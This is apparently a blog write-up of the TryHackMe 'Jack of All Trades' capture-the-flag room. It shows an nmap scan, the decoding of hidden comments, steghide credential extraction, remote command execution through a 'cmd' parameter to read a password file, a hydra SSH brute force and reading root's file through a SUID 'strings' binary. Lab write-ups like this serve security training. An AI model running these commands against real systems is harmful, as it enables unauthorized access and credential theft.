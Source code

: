```yaml
---
title : "Jack of All Trades - Write Up"
date : 2021-07-04T14:31:31+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["strings","stego","RCE","steghide","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/jackofalltrades)  | Easy  |  [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle)  |

## Reconn

As usual, using `nmap` we get the open ports of the machine. 

But, we get something quite unusual.

```bash
╰─ lanfran@parrot ❯ map 10.10.22.246                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 14:32 CEST
Nmap scan report for 10.10.22.246
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.85 seconds
```

We get the port switched!
The `SSH port it's the 80`.
And the `web port it's the 22`.

It's a good way to minf\*ck some clueless people!

Let's scan the web server with `gobuster`

```bash
╰─ lanfran@parrot ❯ curl http://10.10.22.246:22/                                                                                                                              ─╯
<html>
	<head>
		<title>Jack-of-all-trades!</title>
		<link href="assets/style.css" rel=stylesheet type=text/css>
	</head>
	<body>
		<img id="header" src="assets/header.jpg" width=100%>
		<h1>Welcome to Jack-of-all-trades!</h1>
		<main>
			<p>My name is Jack. I'm a toymaker by trade but I can do a little of anything -- hence the name!<br>I specialise in making children's toys (no relation to the big man in the red suit - promise!) but anything you want, feel free to get in contact and I'll see if I can help you out.</p>
			<p>My employment history includes 20 years as a penguin hunter, 5 years as a police officer and 8 months as a chef, but that's all behind me. I'm invested in other pursuits now!</p>
			<p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
			<p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
			<img src="assets/stego.jpg">
			<p>I make a lot of models myself, but I also do toys, like this one:</p>
			<img src="assets/jackinthebox.jpg">
			<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZX[REDACTED]Nzd29yZDogdT9XdEtTcmFxCg== -->
			<p>I hope you choose to employ me. I love making new friends!</p>
			<p>Hope to see you soon!</p>
			<p id="signature">Jack</p>
		</main>
	</body>
</html>
```
We have some nice info here:
- We get an encoded text here.
- We found a new endpoint `recovery.php`.

1. We need to decode the text, so we are going to use [cyberchef](https://gchq.github.io/CyberChef/) !
	To decode it we need to use `Base64`

	And we get a message:
	`Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: [REDACTED]`

	Good! We have a password. Let's save it for later.


2. Using curl to navigate, we get also a encoded text hidden in the soruce code
```bash
╰─ lanfran@parrot ❯ curl http://10.10.22.246:22/recovery.php                                                                                                                  ─╯
		
<!DOCTYPE html>
<html>
	<head>
		<title>Recovery Page</title>
		<style>
			body{
				text-align: center;
			}
		</style>
	</head>
	<body>
		<h1>Hello Jack! Did you forget your machine password again?..</h1>	
		<form action="/recovery.php" method="POST">
			<label>Username:</label><br>
			<input name="user" type="text"><br>
			<label>Password:</label><br>
			<input name="pass" type="password"><br>
			<input type="submit" value="Submit">
		</form>
		<!-- GQ2TOMRXME3TE[REDACTED]TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
		 
	</body>
</html>
```

Let's use [cyberchef](https://gchq.github.io/CyberChef/) again to decode it!

The decode path is `Base32 -> Hex -> ROT13`.

And we get a message:
`Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S`

## Foothold - User

Navigating to that link, we get a Wikipedia's Stegosauria page. Maybe the creator it's telling us to use steganography?

Let's download all the pictures of the webpage!

After, running `steghide` with the password of the "1." point, we get a new file:

```bash
╰─ lanfran@parrot ❯ steghide extract -sf header.jpg                                                                                                                                       ─╯
Enter passphrase: u[REDACTED]
the file "cms.creds" does already exist. overwrite ? (y/n) y
wrote extracted data to "cms.creds".

╰─ lanfran@parrot ❯ cat cms.creds                                                                                                                                                         ─╯
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: [REDACTED]
```
Woohooo! We get the user's password for `recovery.php`!

So let's login now. [If you are getting the error "ERR_UNSAFE_PORT" on tyour browser, you have to enable the port 22. I google a way to fix it, in Brave/Chrome you have to pass the flag "--explicitly-allowed-ports=22"]

Great! We can even exploit the parameter `cmd` to do RCE.

After digging around, we find a file with passwords.

`http://10.10.194.240:22/nnxhweOV/index.php?cmd=cat%20%20/home/jacks_password_list`

Download that file, and let's use it, along with `hydra` to bruteforce the SSH (Remember that's on port 80 :) )

```bash
╰─ lanfran@parrot ❯ hydra -l jack -P pass.txt -s 80 ssh://10.10.22.246                                                                                                                    ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-04 15:01:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.22.246:80/
[80][ssh] host: 10.10.22.246   login: jack   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-04 15:01:19
```
Great, we have now the password, so let's SSH in.

```bash
╰─ lanfran@parrot ❯ ssh jack@10.10.22.246 -p 80                                                                                                                                           ─╯
jack@10.10.22.246's password: 
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
jack@jack-of-all-trades:~$ 
```

Let's `cat` the user's fla... F\*ck, it's an image. Let's download it to our local machine and read/copy the flag from it.
_I recommend using google translate's self image reader to copy the flag :)_

## Root

Scanning the machine, we found the binary `strings` that's owned by root and has the Sticky bit, so we can use it to read the root's flag.

```bash
jack@jack-of-all-trades:~$ ls -la /usr/bin/strings 
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
jack@jack-of-all-trades:~$ /usr/bin/strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{[REDACTED]}
```

And we "rooted" the machine!

That's all from my side, hope you find this helpful!